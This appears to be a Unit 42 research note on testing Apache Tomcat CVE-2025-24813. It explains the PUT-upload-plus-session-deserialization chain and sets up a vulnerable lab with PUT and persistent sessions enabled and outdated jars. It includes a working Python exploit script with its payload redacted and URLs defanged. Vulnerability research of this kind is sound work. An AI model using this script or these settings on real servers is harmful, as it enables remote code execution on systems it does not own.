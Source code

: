# 2025-03-14 (Friday): Testing CVE-2025-24813

## Author

- Yiheng An, Jun Li, Qiang Liu

## References

- `[Unit 42 LinkedIn social media post]`
- `[Unit 42 X social media post]`

## Original References

- https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq
- https://nvd.nist.gov/vuln/detail/CVE-2025-24813
- https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html

## Versions Affected

- Apache Tomcat 11.0.0-M1 to 11.0.2
- Apache Tomcat 10.1.0-M1 to 10.1.34
- Apache Tomcat 9.0.0.M1 to 9.0.98

## Notes

CVE-2025-24813 is a recently announced vulnerability for Apache Tomcat. Apache is an open-source web server platform, and Tomcat is software that allows Apache web servers to run Java servlets.

Exploiting this vulnerability consists of two steps:

1. Arbitrary file writing
2. Insecure deserialization

####  Arbitrary File Writing

When session persistence is enabled in Tomcat, the server will serialize all active user sessions before shutting down. Upon restarting, Tomcat will deserialize these sessions, allowing user sessions to remain active without users being aware of the server restart. 

However, if the HTTP PUT method in Tomcat is enabled, files uploaded via HTTP PUT requests may be cached in the same directory where serialized session data is stored. On a vulnerable web server, an attacker might be able to save malicious files to the serialized session data directory.

#### Insecure Deserialization

After saving a malicious file to the directory for serialized session data. An attacker could use a crafted cookie to "wake up" a session. This could potentially trigger Tomcat to deserialize a maliciously crafted session file, allowing exploitation through deserialization vulnerabilities associated with CVE-2025-24813.

## Testing an Exploit 

We successfully tested an exploit for CVE-2025-24813 on an Apache web server running an outdated version of Tomcat with an outdated version of Java.  Some of this information has already been posted at [Lingua Diabolis](https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html).

Note: All URLs below have been de-fanged.

#### Test Environment

- Ubuntu 24 Server
- Apache-Tomcat 9.0.90
  - hxxps[:]//archive.apache[.]org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
- Java 8.0.442-zulu
- Some depdendencies
  - hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
  - htxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar

#### Establishing a Vulnerable Tomcat Configuration

1. Enable PUT

   Edit `tomcat/conf/web.xml` to add a `readonly` parameter under the `default` servlet name section and set it to `false`. An example is shown below near the end of the code.

   ```xml
       <servlet>
           <servlet-name>default</servlet-name>
           <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
           <init-param>
               <param-name>debug</param-name>
               <param-value>0</param-value>
           </init-param>
           <init-param>
               <param-name>listings</param-name>
               <param-value>false</param-value>
           </init-param>
           <init-param>
             <param-name>readonly</param-name>
             <param-value>false</param-value>
           </init-param>
           <load-on-startup>1</load-on-startup>
       </servlet>
   ```

2. Enable Session persistence

   Edit `/tomcat/conf/content.xml` and add the following setting.

   ```xml
       <Manager className="org.apache.catalina.session.PersistentManager">
         <Store className="org.apache.catalina.session.FileStore" />
       </Manager>
   ```

3. Using the following commands, create a directory at `/tomcat/webapps/ROOT/WEB-INF/lib` and place two outdated dependencies within it.

   ```
   mkdir ./tomcat/webapps/ROOT/WEB-INF/lib && cd ./tomcat/webapps/ROOT/WEB-INF/lib
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
   ```

#### Exploit

We used [Java Chains](https://github.com/vulhub/java-chains) to create a specially crafted session file and send it to a temporarily vulnerable web server running Apache Tomcat at `www.wiresharkworkshop[.]online`. Below is an example of Python script used for this purpose. The malicious session file is named `gopan.session` but can be changed to any name.

```python
import requests
import base64
import os

TARGET_IP = "hxxp[:]//www.wiresharkworkshop[.]online:8080/"

# b64_encoded_payload = "****[information redacted]****"

output_file_path = "decoded_chain.bin"
decoded_content = base64.b64decode(b64_encoded_payload)

with open(output_file_path, "wb") as f:
    f.write(decoded_content)

put_url = f"{TARGET_IP}/gopan.session"
put_headers = {"Content-Range": "bytes 0-5/100"}

with open(output_file_path, "rb") as f:
    put_response = requests.put(put_url, data=f, headers=put_headers)
os.remove(output_file_path)

get_url = f"{TARGET_IP}/"
get_headers = {"Cookie": "JSESSIONID=.gopan"}
get_response = requests.get(get_url, headers=get_headers)
```

